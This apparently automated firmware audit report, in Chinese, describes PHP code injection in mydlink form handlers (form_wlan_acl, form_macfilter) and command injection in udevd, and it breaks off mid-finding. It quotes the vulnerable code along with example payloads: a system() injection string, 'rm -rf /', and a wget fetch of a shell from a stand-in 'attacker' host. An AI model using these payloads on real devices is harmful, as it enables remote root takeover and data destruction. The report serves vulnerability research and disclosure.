 ### network_input-form_wlan_acl-php_code_injection

- **文件路径:** `htdocs/mydlink/form_wlan_acl`
- **位置:** `htdocs/mydlink/form_wlan_acl:未知行号 (dophp)`
- **类型:** network_input
- **综合优先级分数:** **9.6**
- **风险等级:** 10.0
- **置信度:** 9.0
- **触发可能性:** 9.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危PHP代码注入漏洞。当POST参数settingsChanged=1时，循环处理mac_$i/enable_$i参数，未经任何过滤直接通过fwrite写入临时PHP文件($tmp_file)，并通过dophp('load')执行。攻击者可注入任意PHP代码导致远程命令执行(RCE)。触发条件：发送恶意POST请求到form_wlan_acl，参数形如mac_1=';system("恶意命令");/*。边界检查完全缺失，输入直接拼接为PHP变量赋值语句。
- **代码片段:**
  ```
  fwrite("a", $tmp_file, "$MAC = $_POST[\"mac_.$i\"];\n");
  fwrite("a", $tmp_file, "$ENABLE = $_POST[\"enable_.$i\"];\n");
  dophp("load",$tmp_file);
  ```
- **关键词:** dophp, fwrite, $_POST, mac_$i, enable_$i, $tmp_file, runservice, settingsChanged, MAC, ENABLE
- **备注:** 需后续验证：1) dophp函数具体实现(可能在libservice.php) 2) Web服务权限级别 3) $tmp_file清理机制。此漏洞构成完整攻击链：网络输入→无过滤文件写入→代码执行，建议优先调查。

---
### command_execution-udev_event_run-0x1194c

- **文件路径:** `sbin/udevd`
- **位置:** `fcn.00011694@0x1194c`
- **类型:** command_execution
- **综合优先级分数:** **9.35**
- **风险等级:** 9.8
- **置信度:** 9.5
- **触发可能性:** 8.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危命令注入漏洞：udev_event_run函数（fcn.00011694）中execv调用直接使用未过滤的环境变量参数。触发条件：攻击者通过HTTP接口/进程间通信设置含恶意命令的环境变量（如'; rm -rf /'）。传播路径：外部输入→fcn.0000eb14（输入处理）→strlcpy复制→fcn.0000e4c0（格式化）→udev_event_run→execv执行。实际影响：root权限任意命令执行（CVSS 9.8）。边界检查：无元字符过滤或路径白名单验证。
- **代码片段:**
  ```
  sym.imp.execv(*(puVar16 + 0xfffff360), puVar16 + 0xfffff360);
  ```
- **关键词:** execv, udev_event_run, fcn.00011694, fcn.0000e4c0, fcn.0000eb14, strlcpy
- **备注:** 需确认具体环境变量名（建议后续分析fcn.0000eb14输入源）

---
### rce-form_macfilter-1

- **文件路径:** `htdocs/mydlink/form_macfilter`
- **位置:** `htdocs/mydlink/form_macfilter (关键行：fwrite和dophp调用处)`
- **类型:** network_input
- **综合优先级分数:** **9.3**
- **风险等级:** 9.8
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危远程代码执行漏洞：当访问form_macfilter端点并提交settingsChanged=1时，用户控制的$_POST参数(entry_enable_X/mac_X等)未经过滤直接写入/tmp/form_macfilter.php文件。dophp('load')加载执行该文件时导致任意代码执行。触发条件：1) 通过HTTP请求访问接口 2) 设置settingsChanged=1 3) 在entry_enable_X/mac_X等参数注入PHP代码（如：`;system("wget http://attacker/shell -O /tmp/sh");`）。实际影响：攻击者可获得设备root权限完全控制设备。
- **代码片段:**